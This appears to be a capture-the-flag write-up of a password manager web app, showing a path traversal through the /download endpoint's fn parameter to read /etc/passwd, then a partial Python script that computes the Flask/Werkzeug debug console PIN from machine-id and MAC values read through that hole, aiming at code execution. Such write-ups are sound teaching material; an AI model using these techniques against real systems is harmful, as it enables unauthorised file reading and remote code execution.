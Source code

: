 ### Web

Let's navigate to the website after we add the domain to our `/etc/hosts`

![web](1.png)

So this is a password manager. I'll register a user and login.

![reg](2.png)

There is an export button, but since we have no data in the vault yet it gives us `No passwords for user`. Let's submit something.

![pass](3.png)

Now when we click the export button it downloads a file containing the data we entered.

Let's check the requests made on burp.

![burp](4.png)

This reveals the `/download` page used with `fn` parameter to download the files.

If we wait a little bit and try to download the same file we get the following:

![error](5.png)

The files are in the `/tmp` directory and they are getting deleted regularly.

Let's try a path traversal to grab `/etc/passwd` file.

![passwd](6.png)

It worked!.

## **Foothold**

One thing we know so far, we have a path traversal vulnerability on the website, and the website is using Flask in debug mode. If we have the pin to access the console, we would have code execution. The good thing is that we can calculate the pin code by gathering some data using the path traversal and use the following python script to generate the pin.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
```